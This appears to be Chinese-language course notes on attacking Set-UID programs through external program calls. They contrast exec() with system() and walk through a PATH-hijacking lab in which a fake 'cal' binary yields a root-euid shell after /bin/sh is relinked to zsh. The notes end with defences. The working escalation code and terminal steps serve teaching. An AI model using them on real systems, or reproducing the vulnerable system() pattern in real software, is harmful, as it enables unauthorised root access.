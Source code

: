 # 通过外部程序&程序库进行攻击

#### 两种典型调用外部程序方式
1. **使用exec()函数族**，最终使用execve()系统调用将外部程序载如内存并执行(即外部程序直接执行)，攻击面是程序本身和外部程序。  
2. **使用system()函数**，该函数通过fork()函数创建一个子进程，然后使用execl()函数运行外部程序，execl()最终也会调用execve()。system()不直接运行外部程序，它使用execve()来执行/bin/sh，通过shell程序来执行外部程序，所以攻击面相当于是程序本身和外部程序再加上shell的攻击面。  


#### PATH环境变量
许多环境变量都可以影响shell程序行为。shell程序运行命令时，如果没有提供命令位置，shell将使用PATH环境变量来搜索。

如果这个程序是Set-UID的，攻击者就操作变量执行不是真正的日历程序，得到一个有root权限的shell。
```
// val.c
# include <stdlib.h>

int main()
{
    system("cal");
}

```
```
// cal.c
# include <stdlib.h>

int main()
{
    system("/bin/sh");
}
```
```
ubuntu@VM-0-17-ubuntu:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
ubuntu@VM-0-17-ubuntu:~$ export PATH=.:$PATH  # 把当前目录放入环境变量
ubuntu@VM-0-17-ubuntu:~$ echo $PATH  # 当前目录在最前面，所以会最先搜索此目录
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
ubuntu@VM-0-17-ubuntu:~$ ./val 
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
$ exit
ubuntu@VM-0-17-ubuntu:~$ sudo chown root val
ubuntu@VM-0-17-ubuntu:~$ sudo chmod 4755 val
ubuntu@VM-0-17-ubuntu:~$ ./val 
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
$ exit
ubuntu@VM-0-17-ubuntu:~$ sudo ln -sf /bin/zsh /bin/sh  # ubuntu16.04以上指向的dash有保护机制，试验用zsh
ubuntu@VM-0-17-ubuntu:~$ ./val 
# id
uid=1000(ubuntu) gid=1000(ubuntu) euid=0(root) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

#### 减小攻击面
与system函数相比execve函数攻击面要小的多，因为execve不调用shell，所以不受环境变量影响。


&emsp;
#### 通过程序库攻击
程序通常需要使用外部库(第三方库)中的函数。外部库中的函数如果使用了环境变量，就增加了程序的攻击面。

防御措施：与程序库相关的攻击面的防御措施取决于程序库的作者。



